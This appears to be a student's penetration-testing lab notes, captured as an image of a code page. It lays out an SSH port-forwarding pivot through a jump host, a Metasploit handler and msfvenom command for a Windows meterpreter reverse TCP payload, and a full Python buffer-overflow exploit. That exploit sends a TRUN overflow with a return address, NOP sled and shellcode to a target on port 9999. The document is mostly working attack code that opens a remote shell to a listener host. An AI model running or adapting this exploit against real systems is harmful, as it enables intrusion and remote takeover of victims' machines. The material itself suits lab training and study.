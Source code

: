 
# scheme of manuever
LINOPS                                      
  -> JUMP                                   ssh -MS /tmp/t1 -p2222 student@127.0.0.1                 
    -> GREYSITE
      ->T3 192.168.150.245
# opnotes: all commands are ran on the linops
ssh -MS /tmp/jump student@10.50.39.53                           -> gets on jump
ssh -S /tmp/jump jump -O forward -L2222:192.168.28.120:4242     -> fowards port 2222 to greysite ip using known alternate ssh port
ssh -MS /tmp/t1 -p2222 student@127.0.0.1                        -> gets onto greysite using the previous forward port and the local host.  


## msfconsole exploit
> use multihandler, > set payload windows/meterpreter/reverse_tcp, > Set LHOST 0.0.0.0, > set lport 1234
## msfvenom 
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.50.39.104 lport=1234 -b "\x00" -f python

# windows exlpoitation script
#!/usr/bin/env python

import socket

buf = "TRUN /.:/"
buf += "A" * 2003
buf += "\xa0\x12\x50\x62"
buf += "\x90" * 10

buf += b"\xdb\xcc\xbe\xaf\x22\xac\xaa\xd9\x74\x24\xf4\x5a"
buf += b"\x33\xc9\xb1\x59\x31\x72\x19\x83\xea\xfc\x03\x72"
buf += b"\x15\x4d\xd7\x50\x42\x1e\x18\xa9\x93\x40\x28\x7b"
buf += b"\xf7\x0b\x18\x4b\x73\x59\x91\x22\x66\xd6\xfb\x20"
buf += b"\x58\x17\x70\x3a\xb2\xe8\x30\xf1\xe4\xc7\xfe\xaa"
buf += b"\xd5\x46\x83\xb0\x09\xa8\xba\x7a\x5c\xa9\xfb\xcc"
buf += b"\x2a\x46\x51\x44\x86\x88\x01\xd1\x65\x94\xac\x35"
buf += b"\xe2\xa4\xd6\x30\x35\x50\x6b\x3a\x66\xc8\xf8\x64"
buf += b"\xa6\x63\xb6\x8c\xa7\xa0\xc2\x64\xd3\x7a\x84\x47"
buf += b"\xe3\x09\x22\x23\x1a\xdb\x7a\xf3\xb1\x22\xb3\xfe"
buf += b"\xc8\x63\x74\xe1\xbe\x9f\x86\x9c\xb8\x64\xf4\x7a"
buf += b"\x4c\x7a\x5e\x08\xf6\x5e\x5e\xdd\x61\x15\x6c\xaa"
buf += b"\xe6\x71\x71\x2d\x2a\x0a\x8d\xa6\xcd\xdc\x07\xfc"
buf += b"\xe9\xf8\x4c\xa6\x90\x59\x29\x09\xac\xb9\x95\xf6"
buf += b"\x08\xb2\x34\xe0\x2d\x3b\xc7\x0d\x70\xab\x0b\xc0"
buf += b"\x8b\x2b\x04\x53\xff\x19\x8b\xcf\x97\x11\x44\xd6"
buf += b"\x60\x20\x42\xe9\xbf\x8a\x03\x17\x40\xea\x0a\xdc"
buf += b"\x14\xba\x24\xf5\x14\x51\xb5\xfa\xc0\xcf\xbf\x6c"
buf += b"\xe1\x3d\xe7\x04\x9d\x43\xe7\xd0\x8f\xca\x01\x88"
buf += b"\x7f\x9c\x9d\x69\xd0\x5c\x4e\x02\x3a\x53\xb1\x32"
buf += b"\x45\xbe\xda\xd9\xaa\x16\xb2\x75\x52\x33\x48\xe7"
buf += b"\x9b\xee\x34\x27\x17\x1a\xc8\xe6\xd0\x6f\xda\x1f"
buf += b"\x87\x8f\x22\xe0\x22\x8f\x48\xe4\xe4\xd8\xe4\xe6"
buf += b"\xd1\x2e\xab\x19\x34\x2d\xac\xe6\xc9\x07\xc6\xd1"
buf += b"\x5f\x27\xb0\x1d\xb0\xa7\x40\x48\xda\xa7\x28\x2c"
buf += b"\xbe\xf4\x4d\x33\x6b\x69\xde\xa6\x94\xdb\xb2\x61"
buf += b"\xfd\xe1\xed\x46\xa2\x1a\xd8\xd4\xa5\xe4\x9e\xf2"
buf += b"\x0d\x8c\x60\x43\xae\x4c\x0b\x43\xfe\x24\xc0\x6c"
buf += b"\xf1\x84\x29\xa7\x5a\x8c\xa0\x26\x28\x2d\xb4\x62"
buf += b"\xec\xf3\xb5\x81\x35\x04\xcf\xea\xca\xe5\x30\xe3"
buf += b"\xae\xe6\x30\x0b\xd1\xdb\xe6\x32\xa7\x1a\x3b\x01"
buf += b"\xb8\x29\x1e\x20\x53\x51\x0c\x32\x76"

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)    
s.connect (("192.168.150.245",9999))                     
print s.recv(1024)                                       
s.send(buf)                                               
print s.recv(1024)                                        
s.close()                                                 
